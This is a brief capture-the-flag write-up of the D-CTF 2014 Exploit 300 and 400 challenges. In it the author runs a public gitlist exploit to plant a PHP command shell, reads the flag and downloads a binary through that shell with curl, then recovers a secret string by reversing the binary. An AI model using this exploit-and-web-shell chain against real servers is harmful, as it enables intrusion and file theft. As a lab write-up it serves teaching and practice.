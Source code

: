 ```yaml
---
layout: post
title: "D-CTF 2014 Exploit 300 & 400"
date: 2014-10-20 20:29:40 +0330
comments: true
categories: 
---
```


Hi all, 

at October 18th D-CTF 2014 was started and we participated in the CTF via irctf team.

TL;DR

In Exploit 300 challenge we are given an IP (10.13.37.33) and some hints :


>People say that if you're still angry at 80, you're not an angry young man, just a grumpy old git. 10.13.37.33
>
>Hint: gitlist.

<!--more-->

It seems there should be a repo using gitlist. So I check this url : 

```
http://10.13.37.33/gitlist/
```

I can remember that some time ago a vulnerability existed in gitlist so i Google it and find this : 

```
http://www.exploit-db.com/exploits/33929/
```

There's not too much so i use the exploit and Upload the system($cmd) shell.

```
python 33929.py http://10.13.37.33/gitlist/redis /var/www/git/cache
```

After that i can run any command in www-data permission.

Then after some digging i found the flag and submit it :

```
curl http://10.13.37.33/gitlist/cache/x.php?cmd=cat%20../../../../e3.flag
```

```
stupid psychopathic git.
```

Ok at this point we've got 300 points.

With a brief looking at Exploit 400 or seeing a file named e4.hint we notice this :

>You can’t kill a ghost!

>**Hint:** You need to own Exploit 3.

After some searching around a file get my attention : KAKE_exe in /var/www/git/cache

Honestly i dont really know where it comes from So i execute this command :

```
curl http://10.13.37.33/gitlist/cache/x.php?cmd=cat+KAKE_exec | tee KAKE_exec
```

and download the file, it looks like an ELF Executable 64-bit file. 
Then i check for some string and verify that it is the ghost exec.

since i notice on the server it removes itslef i use ```chattr +i``` on the file so it cannot be removed.
Then i check the file via nm and objdump and it seems there is a string checking in **_Z7processPv** Function. After reversing  you can see that the input is checking with this string :

```
debc0b70b835ec66698008c84d34215b
```

And after using this string we've got the flag :

``` 
$ nc 127.0.0.1 8091
debc0b70b835ec66698008c84d34215b
SUPERLINUXNINJA
```

And there we go another 400 point.

if there is any question, let me know about it.

because of lacking time, i write this write-up briefly, Feel free to ask any question.

Thanks,
HAMIDx9


